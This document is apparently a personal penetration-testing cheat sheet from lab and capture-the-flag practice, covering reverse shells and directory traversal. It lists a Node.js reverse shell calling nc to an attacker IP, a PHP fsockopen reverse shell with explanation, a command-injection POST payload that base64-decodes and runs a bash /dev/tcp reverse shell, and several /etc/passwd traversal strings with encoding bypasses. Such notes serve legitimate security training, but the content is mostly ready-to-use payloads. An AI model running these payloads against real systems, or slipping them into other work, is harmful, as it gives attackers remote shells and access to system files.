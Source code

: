   Windows

  ![](/notes/wininject.png)

- Node.js reverse shell `echo "require('child_process').exec('nc -nv 192.168.49.51 9090 -e /bin/bash')" > /var/tmp/offsec.js ; node /var/tmp/offsec.js` //tried with payloads in payload all the things but does not work needs the `> /var....` part at the end

#### PHP

- `php -r '$sock=fsockopen("192.168.49.51",9090);exec("/bin/sh -i <&3 >&3 2>&3");'`
  - `php -r` instructs php to run the command in quotes `$sock=fsockopen("192.168.49.51",9090);exec("/bin/sh -i <&3 >&3 2>&3");`
  - `$sock=fsockopen("192.168.49.51",9090)` establish a tcp socket to our attacker machine
  - `;exec("/bin/sh -i <&3 >&3 2>&3");` will call the function exec
- if `phpninfo()` is available check for `disable_functions` and `Document_root`

#### This worked for the year of the fox challenge

Client side filtering for symbols - used burp to bypass filtering   

`"target":"\" ; echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC40LjE0LjUxLzcwMDMgMD4mMQ== | base64 -d | bash; echo\""` **_this is a post request inside a search function_** 
`\` escapes the `"` character

### Directory Traversal

- `../../../../../../../etc/passwd`
- try reading the php file with the parameter ex: `file.php?file=/var/www/file.php`
- If it loads blank maybe it requires you to start with specific directory. ex: this one requires to start with `/var/www` `file.php?file=/var/www/../../../../../etc/passwd`
- add %00 at the end `../../../../../etc/passwd%00` **_fixed in php version 5.3.4_**
- try `/etc/passwd` without the `../../../../`
- `....//....//....//....//....//etc/passwd`
- url encode = %2E%2E%2F
- double url encode = %252E%252E%252F
